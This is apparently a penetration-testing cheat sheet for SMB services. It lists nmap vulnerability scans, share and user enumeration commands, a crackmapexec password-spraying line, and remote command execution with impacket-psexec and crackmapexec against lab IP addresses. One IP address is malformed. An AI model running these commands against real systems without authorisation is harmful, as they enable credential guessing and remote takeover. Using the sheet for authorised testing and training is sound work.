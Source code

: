 # SMB \[139,445]

## Nmap Scanning

### **Getting version information**

```
nmap -n -v -Pn -p139,445 -sV 192.168.0.101
```

### **Scan with NSE Scripts**

```
nmap 192.168.0.101 --script=smb-enum*
nmap 192.168.0.101 --script=smb-vuln*
nmap 192.1688.0.101 --script=smb-os*
```

## List Available Shares

### smbclient

```
smbclient -L \\\\192.168.1.101\\
# Will list all shares

smbclient -L \\$ip --option='client min protocol=NT1'
# if getting error "protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED"

smbclient //HOST/PATH -c 'recurse;ls'
# List all files recursly
```

### smbmap

```
smbmap -H $ip
# Will list all shares with available permissions

smbmap -H $ip -R $sharename
# Recursively list dirs, and files

smbmap -u '' -p '' -H $ip 
smbmap -u guest -p '' -H $ip
smbmap -u jsmith -p password1 -d workgroup -H 192.168.0.1
# With credentials

smbmap -H 10.129.14.128 --download "notes\note.txt"
# Download

smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"
# Upload
```

### Nmap

```
nmap --script smb-enum-shares -p 139,445 $ip
```

**Windows CMD - Net Use**

```cmd-session
C:\htb> net use n: \\192.168.220.129\Finance /user:plaintext Password123
```

> to host a server use impacket with username and password flags.

**Windows CMD - DIR**

```cmd-session
C:\htb> dir n: /a-d /s /b | find /c ":\"

29302
```

<table data-header-hidden><thead><tr><th width="113"></th><th></th></tr></thead><tbody><tr><td><strong>Syntax</strong></td><td><strong>Description</strong></td></tr><tr><td><code>dir</code></td><td>Application</td></tr><tr><td><code>n:</code></td><td>Directory or drive to search</td></tr><tr><td><code>/a-d</code></td><td><code>/a</code> is the attribute and <code>-d</code> means not directories</td></tr><tr><td><code>/s</code></td><td>Displays files in a specified directory and all subdirectories</td></tr><tr><td><code>/b</code></td><td>Uses bare format (no heading information or summary)</td></tr></tbody></table>

### rpcclient

```shell-session
$ rpcclient -U'%' 10.10.110.17
```

```shell-session
rpcclient $> enumdomusers

user:[mhope] rid:[0x641]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

### Enum4linux

```shell-session
enum4linux 10.10.11.45 -A
enum4linux -u 'guest' -p '' -a <ip>
```

## Brute Force

### CrackMapExec

```shell-session
crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!' --local-auth
```

## **Remote Code Execution (RCE)**

### Impacket-psexec

```shell-session
impacket-psexec administrator:'Password123!'@10.10.110.17
```

### CrackMapExec

```shell-session
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```







